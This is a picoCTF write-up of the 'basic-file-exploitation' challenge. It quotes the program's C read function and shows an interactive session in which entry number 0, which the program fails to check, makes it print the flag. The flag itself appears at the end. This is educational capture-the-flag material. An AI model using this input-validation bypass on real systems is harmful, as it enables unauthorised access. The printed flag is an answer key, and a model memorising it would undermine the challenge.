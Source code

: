 ```yaml
---
exclude: true
---
```

# basic-file-exploitation

## Problem Description
Author: Will Hong  
Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!  
Connect to the program with netcat:  
$ nc saturn.picoctf.net 52681 * 
The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/543/program-redacted.c).  

## Write Up

The provided file `program-redacted.c` contains the code running on the server.  
The function which will display the flag is below.
```
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

The flag will be displayed if `entry_number` is 0.
The `data_read()` function cannot be called until the database has been populated with at least 1 entry.  
Combining the database being filled and exploiting the program is shown below.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
1
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
0
[REDACTED]
```
This will cause the program to print the flag and exit.

## Flag

picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}*

* Note these are user specific and will not work for you.
